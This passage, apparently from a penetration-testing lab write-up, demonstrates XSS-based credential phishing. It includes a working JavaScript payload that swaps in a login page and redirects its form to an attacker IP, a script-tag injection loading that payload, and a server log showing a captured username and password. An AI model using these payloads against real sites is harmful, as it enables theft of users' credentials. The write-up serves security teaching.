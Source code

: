 <figure><img src="../../../../.gitbook/assets/web_xss_phising_1.png" alt=""><figcaption><p>Figure 3: Inspecting the login form's code.</p></figcaption></figure>

We can create a script that fetches the `login` page, replaces the current page's HTML with the fetched content, and then updates the first form's action URL and method.

{% code title="xssPhishing.js" %}
```javascript
// fetch the content of the login page and access the response using 'then'
fetch("login").then(res => res.text().then(data => {
        // replace the current HTML content with the fetched HTML content
        document.getElementsByTagName("html")[0].innerHTML = data
        // update the action attribute to point to the malicious server
        document.getElementsByTagName("form")[0].action = "http://192.168.45.214"
        // update the method attribute from POST to GET
        document.getElementsByTagName("form")[0].method = "get"
}))
```
{% endcode %}

```javascript
// XSS payload
<script src='http://192.168.45.214/xssPhishing.js'></script>
```

{% code overflow="wrap" %}
```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.198.101 - - [06/Aug/2024 07:42:32] "GET /xssPhishing.js HTTP/1.1" 200 -
192.168.198.101 - - [06/Aug/2024 07:42:41] "GET /?username=gullible&password=IMaybeGullibleButMyPasswordsAreStrong HTTP/1.1" 200 -
```
{% endcode %}
